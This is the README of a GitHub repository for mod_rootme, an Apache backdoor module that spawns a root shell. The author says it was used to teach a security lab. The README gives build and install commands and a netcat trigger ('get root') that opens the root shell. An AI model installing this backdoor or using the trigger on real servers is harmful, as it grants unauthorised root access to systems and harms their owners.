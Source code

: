# mod_rootme

mod_rootme is a Apache backdoor module that can spawn a root shell.

I used this module while teaching a software security lab.  The module
has been around for a while, but
[the blog](http://blog.danfego.net/2009/10/update-to-mod_rootme/)
that hosted the most recent version seems to have disappeared from the
web.  Malware detection programs such as 'rkhunter' and 'unhide' can
trivially detect the presence of mod_root, so it should not be too
harmful to have this code in circulation again.

This repository is imported from an old archive I happened to find
from my old class files (mod_rootme-0.4.tar.gz), updated to build on
Debian GNU/Linux 8.0.

See README.old.txt for the original documentation.

## Build instructions

To build and test on a Debian/Ubuntu system, you would need apache2
and apache2-dev.  Run 'make' and 'sudo make install' to build the
module, and enable it in httpd configuration, perhaps like so:

```
sudo sh -c \
'echo "LoadModule rootme_module \
/usr/lib/apache2/modules/mod_rootme.so" | sudo tee > \
/etc/apache2/mods-available/rootme.load'
```

Now to enable the module:

```
sudo a2enmod rootme
sudo apache2ctl restart
```

To check that the root shell is indeed available:

```
nc localhost 80
get root
id
```

To uninstall the module:

```
sudo a2dismod rootme
rm /usr/lib/apache2/modules/mod_rootme.so
sudo apache2ctl restart
```
